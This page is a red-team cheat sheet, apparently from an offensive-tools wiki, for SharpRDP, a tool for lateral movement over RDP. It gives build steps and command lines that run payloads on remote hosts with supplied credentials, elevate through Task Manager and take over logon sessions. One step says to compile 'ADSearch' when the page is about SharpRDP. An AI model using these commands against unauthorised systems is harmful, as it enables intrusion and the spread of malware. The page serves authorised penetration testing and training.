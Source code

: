 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - offensive-tools
  - T1021-001
  - network-protocols
  - rdp
  - windows
---
```

# SharpRDP

## 01 - Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481).  Then compile `ADSearch`.

```
C:\> git clone https://github.com/0xthirteen/SharpRDP

C:\> cd SharpRDP

C:\SharpRDP> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

## 02 - Usage

Regular RDP connection and execution

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="<commands>"
```

`exec` program as child process of `cmd` or `powershell`.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\payload.exe" exec=cmd
```

Connect first host drives

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="\\tsclient\C\Temp\payload.exe" connectdrive=true
```

Execute command elevated through task manager.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\payload.exe\" elevated=taskmgr
```

Add Network Level Authentication

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\payload.exe\" nla=true
```

Ask to take over logon session.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\payload.exe\" takeover=true
```

---
## References

### Github

- [SharpRDP](https://github.com/0xthirteen/SharpRDP)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)